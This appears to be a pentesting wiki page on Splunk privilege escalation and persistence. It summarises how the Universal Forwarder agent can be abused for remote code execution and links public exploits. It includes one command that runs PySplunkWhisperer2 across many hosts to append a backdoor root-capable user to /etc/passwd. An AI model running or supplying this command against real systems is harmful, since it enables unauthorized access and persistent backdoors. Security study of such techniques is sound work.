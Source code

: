 # Splunk LPE and Persistence


If **enumerating** a machine **internally** or **externally** you find **Splunk running** (port 8090), if you luckily know any **valid credentials** you can **abuse the Splunk service** to **execute a shell** as the user running Splunk. If root is running it, you can escalate privileges to root.

Also if you are **already root and the Splunk service is not listening only on localhost**, you can **steal** the **password** file **from** the Splunk service and **crack** the passwords, or **add new** credentials to it. And maintain persistence on the host.

In the first image below you can see how a Splunkd web page looks like.

## Splunk Universal Forwarder Agent Exploit Summary

For further details check the post [[https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/|https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/]]. This is just a sumary:

**Exploit Overview:**
An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.

**Key Points:**

- The UF agent does not validate incoming connections or the authenticity of code, making it vulnerable to unauthorized code execution.
- Common password acquisition methods include locating them in network directories, file shares, or internal documentation.
- Successful exploitation can lead to SYSTEM or root level access on compromised hosts, data exfiltration, and further network infiltration.

**Exploit Execution:**

1. Attacker obtains the UF agent password.
2. Utilizes the Splunk API to send commands or scripts to the agents.
3. Possible actions include file extraction, user account manipulation, and system compromise.

**Impact:**

- Full network compromise with SYSTEM/root level permissions on each host.
- Potential for disabling logging to evade detection.
- Installation of backdoors or ransomware.

**Example Command for Exploitation:**

```bash
for i in `cat ip.txt; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
```
**Usable public exploits:**

- [[https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2|https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2]]
- [[https://www.exploit-db.com/exploits/46238|https://www.exploit-db.com/exploits/46238]]
- [[https://www.exploit-db.com/exploits/46487|https://www.exploit-db.com/exploits/46487]]

## Abusing Splunk Queries

**For further details check the post [[https://blog.hrncirik.net/cve-2023-46214-analysis|https://blog.hrncirik.net/cve-2023-46214-analysis]]**



